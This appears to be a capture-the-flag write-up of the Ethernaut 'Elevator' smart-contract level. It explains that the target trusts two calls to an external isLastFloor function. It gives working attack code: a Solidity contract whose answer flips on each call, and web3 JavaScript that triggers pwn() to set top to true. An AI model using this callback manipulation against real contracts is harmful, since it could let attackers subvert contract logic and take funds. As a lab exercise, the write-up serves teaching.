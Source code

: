 Supposedly, this function only proceeds when `building.isLastFloor(_floor)` is false:

```solidity
if (! building.isLastFloor(_floor)) {
    floor = _floor;
    top = building.isLastFloor(floor);
}
```

Then `top` should be false too since `isLastFloor` is called with the same input.

However it is possible to output different results for the same input.
For example, this contract will switch its results on each call:

```solidity
function isLastFloor(uint floor) external returns (bool) {
    count += 1;
    return count % 2 == 0;
}
```

The input actually has no impact on the result.

```js
abi = '[{"inputs":[],"stateMutability":"nonpayable","type":"constructor"},{"inputs":[{"internalType":"uint256","name":"floor","type":"uint256"}],"name":"isLastFloor","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"pwn","outputs":[],"stateMutability":"nonpayable","type":"function"}]';
topple = new web3.eth.Contract(JSON.parse(abi), '0x503c86d70539fE0ed1fb4a89f9FCa466272Eb613');
// false
await contract.top()
// attack
topple.methods.pwn().send({from: player}, function(error, data) {console.log(data);});
// true
await contract.top()
```
